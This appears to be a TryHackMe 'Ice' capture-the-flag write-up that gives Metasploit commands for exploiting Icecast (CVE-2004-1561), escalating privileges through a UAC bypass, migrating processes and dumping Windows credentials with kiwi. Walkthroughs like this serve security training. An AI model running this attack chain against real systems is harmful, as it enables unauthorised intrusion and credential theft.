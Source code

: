 # ICE TryHackMe Machine
## 1. Recon
```
nmap -sV <machine ip>
```
![img of port scan](port_scan.png)
we search for vulnerablilites on CVE for the icecast service on port 8000<br>
found vulnerability execute code overflow CVE-2004-1561 <br>
## 2. Exploiting
```
msfconsole
search icecast
use 0
set LHOST <your ip>
set RHOST <victim ip>
run
```
We succesfully pwned the machine and opened a meterpreter connection <br>
![img of pwned machine](pwn.png)
## 3. privilege escalation

```
run post/multi/recon/local_exploit_suggester
```
this script suggested plenty exploits that can be used against this machine <br>
![img of possible exploits](exploits.png)

we used the exploit exploit/windows/local/bypassuac_eventvwr
```
bg
use exploit/windows/local/bypassuac_eventvwr
set LHOST <your ip>
run
```
this spawns a meterpreter session that has administrator privileges <br>
![img of escalated machine](escalate.png)
```
ps
migrate -N spoolsv.exe
```
this migrates our process to a process which has more privileges. <br>
now we load the mimikatz or kiwi module to steal the passwords of the users
```
load kiwi
creds_all
```
this reveals the password of the user "Dark" which is Password01! <br>
![img of stolen credentials](creds.png)

with this we clear the ice room.
<img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/>
